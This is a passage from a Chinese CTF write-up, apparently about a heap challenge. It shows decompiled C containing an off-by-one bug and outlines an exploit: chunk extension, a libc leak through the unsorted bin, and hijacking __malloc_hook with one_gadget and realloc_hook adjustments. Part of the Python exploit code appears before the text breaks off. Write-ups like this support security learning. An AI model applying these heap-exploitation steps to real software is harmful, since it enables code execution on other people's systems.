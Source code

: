 在处理边界问题时，错误使用判断条件，导致溢出 1 字节，正确应该``if(i>=size)``，具体逻辑如下：

```c
__int64 __fastcall sub_C39(__int64 ptr, int size)
{
  __int64 result; // rax
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = (unsigned int)i;
    if ( i > size )                             // off by one
      break;
    if ( !read(0, (void *)(i + ptr), 1uLL) )    // 输出错误的异常处理
      exit(0);
    if ( *(_BYTE *)(i + ptr) == '\n' )
    {
      result = i + ptr;
      *(_BYTE *)result = 0;
      return result;
    }
  }
  return result;
}
```

#### 思路

使用 off by one 伪造 chunk size，造成 chunk extend ，再利用 unsorted bin 的特点，泄露出 unsorted bin fd 指针的 libc 地址。

将上一步中的 chunk extend 剩下在 bin 中的内存申请出来，造成两个指针指向同一个地址，配合 edit 功能实现 houst of spirit ，劫持 \_\_malloc_hook 。

实际测试后全部 onegadget 因为栈环境问题都无法打通，需要结合 malloc_hook 、 realloc_hook 调整栈环境才能打通。

---

溢出修改 chunk size 造成 chunk extend ，chunk0 用于溢出 chunk1 ，chunk2 用于读取 unsorted bin fd 指针，chunk3 防止 fake chunk 与 topchunk 合并。溢出 size 是经过计算符合 house of spirit 要求：

```python
create(0x18,'s')
create(0x48,'k')
create(0x68,'y')#2
create(0x10,'e')

payload = 'a'*0x18 + '\xc1'
edit(0,payload)

free(1)
create(0x48,'yyds')
show(2)
```

泄露 libc 地址后，将 bin 中剩余内存申请出来，该指针与 chunk2 指向相同地址，任选其一释放，再用另外一个修改 fastbin fd 指针：
